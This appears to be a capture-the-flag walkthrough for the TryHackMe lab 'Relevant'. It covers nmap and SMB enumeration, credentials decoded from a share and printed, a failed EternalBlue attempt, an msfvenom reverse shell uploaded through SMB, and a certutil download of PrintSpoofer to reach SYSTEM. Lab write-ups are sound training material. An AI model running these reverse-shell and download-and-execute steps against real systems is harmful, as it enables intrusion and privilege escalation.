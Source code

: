 # Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.145.102
</strong></code></pre>

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9) (4) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (3) (1) (2).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



### TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2) (2) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

<pre><code><strong>rlwrap nc -lvnp 1337
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (11) (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Exploit:** [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

As SeImpersonatePrivilege is enabled for the user we can use Printspoofer as it works on Windows 10 and Server 2016/2019.

****

**Victim**

```
systeminfo
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (16) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Windows\Temp
certutil -urlcache -f http://10.10.163.87:81/PrintSpoofer.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
PrintSpoofer.exe -i -c powershell.exe
```

<figure><img src="../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (3) (1).png" alt=""><figcaption></figcaption></figure>
